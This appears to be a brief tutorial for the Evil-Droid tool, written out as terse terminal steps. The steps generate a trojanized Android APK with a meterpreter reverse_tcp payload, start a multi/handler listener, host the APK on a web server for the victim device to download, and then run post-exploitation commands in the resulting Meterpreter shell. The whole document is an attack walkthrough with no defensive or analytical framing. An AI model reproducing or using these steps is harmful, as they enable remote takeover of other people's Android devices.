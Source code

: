 
## Download Evil Droid from github and Uses
	
	
	-> cd Desktop	
	
	-> git clone https://github.com/M4sc3r4n0/Evil-Droid
	
	-> cd Evil-Droid
	
	-> ls
	
	-> chmod +x evil-droid
	
	-> sudo ./evil-droid
	
	-> 1
	
	-> ok
	
	-> 5555
	
	-> ok
	
	-> evilapk
	
	-> ok
	
	-> select android/meterpreter/reverse_tcp 
	
	-> ok
	
	-> ok
	
	-> select multi/handler
	
	-> ok
	
	
	On Another Terminal
	
		-> cd /home/kali/Desktop
		
		-> cd Evil-Droid
		
		-> cd evilapk
		
		-> sudo mv evilapk /var/www/html
		
		
	On the Android Device
	
		-> Go to the browser and enter the ip address of the kali linux machine
		
	
	
	Got the meterpreter shell 
	
		-> app_list
		
		-> check_root
		
		